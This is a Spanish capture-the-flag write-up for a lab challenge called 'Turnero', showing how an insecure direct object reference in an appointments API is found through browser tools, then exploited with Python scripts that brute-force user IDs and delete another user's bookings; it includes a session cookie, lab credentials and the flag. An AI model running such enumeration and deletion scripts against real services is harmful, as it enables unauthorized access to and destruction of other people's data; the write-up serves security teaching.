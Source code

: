 # M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)
> Nota: Pueden encontrar los otros documentos del HackLab2024 [aqui](https://github.com/M1st1fy/HackLab2024)
## Integrantes

- Agustín M. Blanco
- Tomás N. Raspa
## Índice

1. Turnero
	1. Primera aproximación
	2. Observando en profundidad
	3. El ataque


---
## Turnero

>Al acceder al sistema, verás tus próximos turnos médicos. Tu compañero Fer también necesita un turno, pero el usuario `xdalvik` ha reservado demasiados turnos de manera intencionada para incomodar a los demás.
>¿Podrías eliminar todos los turnos de "xdalvik" sin afectar los turnos del resto de los usuarios?
>Usuario: `luis`
>Clave: `Luis.4321`


### Primera aproximación

Al ingresar al sistema, tal y como nos fue anticipado por el enunciado, nos encontramos con una pantalla de inicio de sesión para lo que parecería ser un turnero:

![Pantalla LogIn](images/turnero/login.png)

Al ingresar con las credenciales de Luis que nos fueron provistas, obtenemos un panel con su listado de turnos:
![Lista de turnos de Luis](images/turnero/turnosLuis.png)

Jugando un poco con el sistema vemos que a priori lo único que parecería permitir es cerrar la sesión o cancelar un turno. Veamos ahora cómo está interactuando realmente nuestro navegador con el sistema...

### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

Al cargar la página con estas herramientas observamos que realmente se está construyendo en dos pasos. Primero se obtiene la estructura, y luego se obtiene la información a traves de una API
![Requests en DevTools para Mis Turnos](images/turnero/peticionesMisTurnos.png)

Al observar con mayor detenimiento la segunda petición vemos que se trata de un [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a  `api/1/appointments/` que devuelve un [JSON](https://es.wikipedia.org/wiki/JSON) con la información sobre los turnos:
```json
[
    {
        "clinic": "Cl\u00ednica del Sol",
        "date": "2024-10-22T21:41:25.683923",
        "id": 1,
        "specialist": "Dr. Alvarez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b02",
        "date": "2024-10-25T04:41:25.684032",
        "id": 2,
        "specialist": "Dra. Gonzales",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Cl\u00ednica privada",
        "date": "2024-10-22T22:41:25.684079",
        "id": 3,
        "specialist": "Lic. Lopez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Punilla",
        "date": "2024-10-23T22:41:25.684119",
        "id": 4,
        "specialist": "Dr. Lange",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b0 14",
        "date": "2024-10-25T02:41:25.684158",
        "id": 5,
        "specialist": "Dra. Farias",
        "user": "luis",
        "user_id": 1
    }
]
```

Si miramos la información contenida en la respuesta, todos los turnos devueltos pertenecen al `user_id` 1, y, coincidentemente, la petición que habíamos hecho, la palabra `appointments` estaba precedida por un 1. Esto nos lleva hacer la siguiente suposición:
>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API probablemente sea `/api/:user_id/appointments/`, siendo `:user_id` el `id` del usuario que del que se desea obtener la lista de turnos 

Prestemos ahora atención al comportamiento del sistema cuando se desea cancelar un turno.
Al presionar `Cancelar` recibimos un [prompt] (https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt) consultando si estamos seguros. 
![](images/turnero/alertCancelacionTurno.png)

Al aceptar, vemos que la página se recarga y, si miramos nuevamente las herramientas de desarrollador, vemos que se ejecutaron dos peticiones
![](images/turnero/peticionesCancelarTurno.png)

La segunda petición es identica a todas las anteriores, obtiene el listado de turnos del usuario. Sin embargo, la primera es diferente. Se trata de un [DELETE](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/DELETE) al endpoint `/api/appointments/2` cuya respuesta fue el siguiente JSON: 
```json
{"message":"Turno eliminado correctamente"}
```

Observando el formato de la request, si lo extrapolamos con los datos que conocíamos de la respuesta al endpoint `/api/:user_id/appointments/` podemos sacar la siguiente conclusión:

>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API para cancelar turnos es `/api/appointments/:id_turno`, siendo `:id_turno` el `id` del turno que se desea cancelar

Teniendo toda esta información, veamos ahora cómo podemos hacer para cancelarle los turnos a `xdalvik`:)

### El ataque

Nuestro objetivo es cancelarle los turnos a `xdalvik` sin afectar a los demás usuarios. Sin embargo, para poder cancelar un turno, primero necesitamos su `id`. Para lograr esto, con la información obtenida anteriormente y un poco de pensamiento lateral, llegamos a la siguiente estrategia. Podemos utilizar el endpoint `/api/:id_usuario/appointments/` y un poco de fuerza bruta para encontrar el `id` del usuario correxpondiente a `xdalvik`.

```python
from concurrent.futures import ThreadPoolExecutor
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"


def probarId(id):
    res = requests.get(f"{URL_BASE}/api/{id}/appointments", cookies={'session':COOKIE_SESION})
    datos = res.json()

    if datos != []:
        print(f"[X] Usuario encontrado! Usuario: [{datos[0]['user']}]. Id: [{datos[0]['user_id']}]")

if __name__ == '__main__':
    lista = [x for x in range(0,500)]
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(probarId, lista)
```

>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

 Al ejecutar el script obtenemos el siguiente resultado:
 ```
[X] Usuario encontrado! Usuario: [luis]. Id: [1]
[X] Usuario encontrado! Usuario: [analia]. Id: [49]
[X] Usuario encontrado! Usuario: [xdalvik]. Id: [101]
```

Genial! Encontramos el `id` de `xdalvik`! Ahora solo nos falta eliminar sus turnos. Para ello, aprovechando el otro endpoint que habíamos descubierto, podemos armar otro script que elimine todos sus turnos.

```python
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"

def obtenerTurnos(idUsuario):
    res = requests.get(f"{URL_BASE}/api/{idUsuario}/appointments/", cookies={'session':COOKIE_SESION})
	return res.json()

def eliminarTurno(id):
    requests.delete(f"{URL_BASE}/api/appointments/{id}/", cookies={'session':COOKIE_SESION})

if __name__ == '__main__':
    turnosXdalvik = obtenerTurnos(101)
    for turno in turnosXdalvik:
        eliminarTurno(turno["id"])
```
>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

Luego de ejecutar este último script, si recargamos la página en el navegador veremos que hemos obtenido la flag!

![](images/turnero/flag.png)
>Flag: `d27fa3f8fc14ea101603d09436e28bf6`
